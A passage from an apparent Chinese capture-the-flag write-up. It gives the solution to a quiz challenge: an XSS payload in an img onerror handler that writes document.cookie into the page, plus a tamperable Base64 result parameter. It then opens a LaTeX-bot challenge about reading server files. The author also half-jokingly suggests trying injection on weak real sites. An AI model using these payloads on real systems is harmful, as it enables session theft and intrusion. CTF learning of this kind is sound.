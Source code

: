 ```html
<img
    src="."
    onerror="document.querySelector('#score').innerText = document.cookie" />
```

提交后，显示：

![](./IntegralQuiz/submit-success.png)

大功告成！（真的

### 不可行的做法

#### 算微积分

有的选手（似乎不少）真就死磕微积分。他们会惊讶的发现，哪怕做到了 100 分，也拿不到 flag。醉翁之意不在酒！

更加讽刺的是，观察结果页面的 URL：

```plain
http://202.38.93.111:10056/share?result=MjA6dGVzdA%3D%3D
```

对 `result` 参数进行 Base64 解码，会得到 `20:test`，这就是你的成绩和姓名（而你的答案却没有包含在里面）。这意味着，这个页面就像签到题的页面一样，显示的成绩其实是可以任意修改的。

### Flag

```plain
flag{xS5_1OI_is_N0t_SOHARD_cd1f576b40}
```

XSS lol is not so hard! 注入攻击并没有那么困难。

[alert(1) to win](https://alf.nu/alert(1)) 是一个著名的注入攻击练习小游戏。如果你掌握了足够多的技巧，甚至可以去一些质量看起来不那么好的网站上玩几发，或许会有意想不到的结果。（注意，hack for fun not for profit！不要干违法犯罪的事情）

## 8. LaTeX 机器人 (*150/350, task1)

> 在网上社交群组中交流数学和物理问题时，总是免不了输入公式。而显然大多数常用的聊天软件并不能做到这一点。为了方便大家在水群和卖弱之余能够高效地进行学术交流，G 社的同学制作了一个简单易用的将 LaTeX 公式代码转换成图片的网站，并通过聊天机器人在群里实时将群友发送的公式转换成图片发出。
> 
> 这个网站的思路也很直接：把用户输入的 LaTeX 插入到一个写好头部和尾部的 TeX 文件中，将文件编译成 PDF，再将 PDF 裁剪成大小合适的图片。
> 
> “LaTeX 又不是被编译执行的代码，这种东西不会有事的。”
> 
> 物理出身的开发者们明显不是太在意这个网站的安全问题，也没有对用户的输入做任何检查。
> 
> 那你能想办法获得服务器上放在根目录下的 flag 吗？
> 
> **纯文本**
> 
> 第一个 flag 位于 `/flag1`，flag 花括号内的内容由纯文本组成（即只包含大写小写字母和数字 0-9）。
> 
> **特殊字符混入**
> 
> 第二个 flag 位于 `/flag2`，这次，flag 花括号内的内容除了字母和数字之外，还混入了两种特殊字符：下划线（`_`）和井号（`#`）。你可能需要想些其他办法了。
> 
> [LaTeX 图片生成后端的 Dockerfile 附件下载](./LaTeXBot/latexbot-backend.zip)